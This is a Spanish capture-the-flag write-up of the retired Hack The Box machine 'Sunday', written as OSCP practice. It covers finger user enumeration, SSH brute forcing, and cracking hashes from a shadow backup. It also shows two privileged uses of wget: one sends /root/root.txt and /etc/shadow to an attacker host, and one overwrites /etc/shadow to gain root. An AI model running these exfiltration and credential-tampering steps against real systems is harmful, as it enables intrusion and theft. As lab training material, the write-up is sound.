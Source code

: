 ```yaml
---
layout: post
title:  "OSCP Path ~ Sunday de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada Sunday siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, LFI, RCE, Burpsuite, PHP, RDP-file, Maquinas Retiradas, Writeup, Hacking
---
```


# Sunday ~ Hack The Box to OSCP

Realizamos el escaneo con Nmap de puertos y servicios abiertos
```bash
PORT      STATE  SERVICE VERSION
79/tcp    open   finger  Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/2            Sat 17:20  10.10.16.210        \x0D
|_sammy    sammy                 pts/3            Sat 18:03  10.10.16.210        \x0D
111/tcp   open   rpcbind
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
46385/tcp closed unknown
63929/tcp closed unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

Vemos que tenemos el servicio `finger` que sirve para enumerar usuarios cuando se conectan
```bash
# finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76                                                                                                                              1 ⚙
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /opt/SecLists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Thu Jul 29 11:20:02 2021 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..listen   Network Admin                      < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
sammy@10.10.10.76: sammy                 console      <Jul 31, 2020>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Thu Jul 29 11:57:39 2021 #########
15 results.

10177 queries in 2257 seconds (4.5 queries / sec)
```
Se ve mucho ruido con esta herramienta, pues por eso es importante fijarnos solo en los usuarios que tenga fecha y hora.
```bash
user: sunny, sunday
```
 Teniendo estos usuarios procedemos a probar fuerza bruta por el puerto SSH con la herramienta `patator`
 ```bash
 # patator ssh_login host=10.10.10.76 port=22022 user=FILE0 0=users.txt password=FILE1 1=passwd_ssh_brute -x ignore:fgrep='failed'
12:53:58 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-07-29 12:53 CEST
12:53:58 patator    INFO -                                                                              
12:53:58 patator    INFO - code  size    time | candidate                          |   num | mesg
12:53:58 patator    INFO - -----------------------------------------------------------------------------
12:54:13 patator    INFO - 0     19     5.936 | sunny:sunday                       |    11 | SSH-2.0-Sun_SSH_1.3
12:54:14 patator    INFO - Hits/Done/Skip/Fail/Size: 1/18/0/0/18, Avg: 1 r/s, Time: 0h 0m 15s
```
# SSH Error Algorithms - Solution
Procedemos a intentar conectarnos por ssh con las credenciales obtenidas:
```bash
# ssh sunny@10.10.10.76 -p 22022                                                                                                 
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
Se nos lanza un error por un algoritmo de codificacion llamado `diffie-helman`.. pero lo solucionamos de la siguiente forma:
```bash
 ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
 ```
Con el parametro `-oKexALgorithms=` procedemos a especificarle el algoritmo que nos da problemas `+diffie-hellman-group1-sha1`
```bash
# ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
Password: 
Last login: Thu Jul 29 16:24:15 2021 from 10.10.16.212
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```
Conseguimos conectarnos correctamente. Procedemos a enumerar un poco el sistema.

# Escalada de Privilegios a Sammy
Procdemos con los comandos tipicos para enumera el sistema:
`sudo -l`
```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```
`id`
```bash
sunny@sunday:~$ id
uid=65535(sunny) gid=1(other) groups=1(other)
```
`uname -a`
```bash
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris
```
Procedemos a movernos a la raiz `/` para enumerar directorios
```bash
cd /backup
cat shadow.backup
```
Sacamos los Hashes de un archivo shadow.backup de los siguientes usuarios
```bash
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Procedo a intentar Crackearlos con el uso de `John`
```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hashes      
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
"sunday "          (sunny)
"cooldude!"        (sammy)
2g 0:00:00:10 DONE (2021-07-29 13:29) 0.1978g/s 20257p/s 20662c/s 20662C/s infinitig35..bluemoon2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Probamos a usar el comando `su` para con la contraseña del usuario sammy conectarnos pero no nos funciona
Porque no probamos por ssh
```bash
# ssh sammy@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1                                                                                                                                  1 ⨯
Password: 
Password: 
Last login: Thu Jul 29 17:26:31 2021 from 10.10.16.218
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ ls
Desktop  Documents  Downloads  Public
```
Conseguimos entrar correctamente por ssh
```bash
sammy@sunday:~$ cd Desktop/
sammy@sunday:~/Desktop$ ls
user.txt
sammy@sunday:~/Desktop$ cat user.txt 
a3d9498027ca5187ba1793xxxxxxxxxxxx
```
Sacamos la flag de `user.txt`

#Escalada de Privilegios a Root
Procedemos a enumerar al user sammy
```bash
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
Vale pues procedemos de la siguiente forma
```bash
sammy@sunday:~/Desktop$ sudo wget --post-file /root/root.txt http://10.10.16.218/80
--18:05:40--  http://10.10.16.218/80
           => `80'
Connecting to 10.10.16.218:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Y nos ponemos en escucha con una session de `nc`
```bash
# nc -vlnp 80                                                                                                                                                                                                 1 ⨯
listening on [any] 80 ...
connect to [10.10.16.218] from (UNKNOWN) [10.10.10.76] 59492
POST /80 HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.16.218
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0xxxxxxxxx
```
Ahi pillamos la flag de `/root/root.txt`

Consiguiendo la shell de root atraves del archivo /etc/shadow
Nos tramitamos el archivo antes mencionado
```bash
sammy@sunday:~$ sudo wget --post-file /etc/shadow http://10.10.16.218/80                              
--15:26:04--  http://10.10.16.218/80
           => `80'
Connecting to 10.10.16.218:80... conectado.
Petición HTTP enviada, esperando respuesta... ^C
```
Nos ponemos en la escucha con :
```bash
# nc -vlnp 80 > shadow    
listening on [any] 80 ...
connect to [10.10.16.218] from (UNKNOWN) [10.10.10.76] 49713
```
Modificamos el archivo /etc/shadow desde nuestro Kali para meterle una password nueva al usuario root y ya poder conectarnos a el
En mi caso e procedido copiando la contraseña del usuario `sammy` para a hacer `su root`y meter la pass de `sammy` conseguir ganar acceso a root
Una vez modificado el archivo shadow, nos montamos un server en python3 para tramitar el archivo.
Y ya procedemos a hacer uso de wget para copiarnos el shadow modificado
```bash
sammy@sunday:~$ sudo wget http://10.10.16.218/shadow -O /etc/shadow
--15:35:30--  http://10.10.16.218/shadow
           => `/etc/shadow'
Connecting to 10.10.16.218:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 657 [application/octet-stream]

100%[===========================================================>] 657           --.--K/s             

15:35:31 (16.60 KB/s) - `/etc/shadow' saved [657/657]
```
Ahora procedemos a hacer un su root
```bash
sammy@sunday:~$ su root
Password: 
sammy@sunday:~# id
uid=0(root) gid=0(root)
```
Maquina Rooteada =)

